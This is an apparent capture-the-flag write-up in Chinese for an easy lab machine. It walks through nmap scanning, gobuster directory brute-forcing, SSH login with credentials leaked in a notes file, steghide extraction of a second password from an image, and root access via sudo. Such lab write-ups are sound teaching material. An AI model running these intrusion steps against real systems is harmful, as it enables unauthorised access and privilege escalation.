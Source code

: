 > ubuntu 17.10之后网卡配置文件在/etc/netplan/xx-netcfg.yaml , lsb_release -a 查看发行版
## 靶机信息
- 级别:容易



## Recon
### nmap

```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.152

sudo nmap -sT -p- --min-rate 10000 192.168.1.152 -oA tcp_scan/ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Web
### 目录爆破
```shell
gobuster dir -u http://192.168.1.152 -w /usr/share/wordlists/dirb/common.txt -x txt,php
/notes.txt            (Status: 200) [Size: 86]
```
![[Pasted image 20231013151938.png]]
```shell
//敏感信息泄露 
first_stage:flagitifyoucan1234
//这可能是一个ssh凭证
ssh first_stage@192.168.1.152
passwd:flagitifyoucan1234
```
user flag:
![[Pasted image 20231013152933.png]]

### 图片隐写
```shell
sudo scp first_stage@192.168.1.152:/home/mhz_c1f/Paintings/'spinning the wool.jpeg' ./Pantings //不知道为啥*不被识别成通配符而是文件名
file *.jpeg
//是否有捆绑
binwalk *.jpeg
```

### steghide
```shell
sudo apt install -y steghide
steghide info spinning\ the\ wool.jpeg 
Enter passphrase //直接回车
Enter passphrase: 
  embedded file "remb2.txt":
    size: 85.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
看到有 remb2.txt文件
//提取这个文件
sudo steghide extract -sf spinning\ the\ wool.jpeg //提取remb2.txt需要在本机写入，需要sudo权限
//cat remb2.txt得到凭证

mhz_c1f:1@ec1f
```


## 提权
```
su mhz_c1f
sudo -l //三个ALL
直接sudo su提权即可
```
![[Pasted image 20231013160610.png]]
